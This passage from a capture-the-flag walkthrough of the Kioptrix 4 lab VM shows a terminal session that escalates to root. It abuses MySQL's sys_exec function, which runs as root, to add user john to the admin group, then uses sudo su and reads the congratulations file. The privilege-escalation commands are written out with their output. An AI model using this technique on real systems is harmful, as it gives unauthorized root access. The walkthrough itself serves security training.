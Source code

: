 ```bash
john@Kioptrix4:~$ cd /root
john@Kioptrix4:/root$ ls
congrats.txt  lshell-0.9.12  test
```
So we can see that we have successfully created a file in `root` directory. So lets change group of `john` to admin.

```bash
john@Kioptrix4:~$ mysql -h localhost -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| members            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.04 sec)

mysql> exit
Bye
john@Kioptrix4:~$ sudo su
[sudo] password for john: 
root@Kioptrix4:/home/john# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix4:/home/john# cat /root/congrats.txt 
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret

root@Kioptrix4:/home/john# 
```

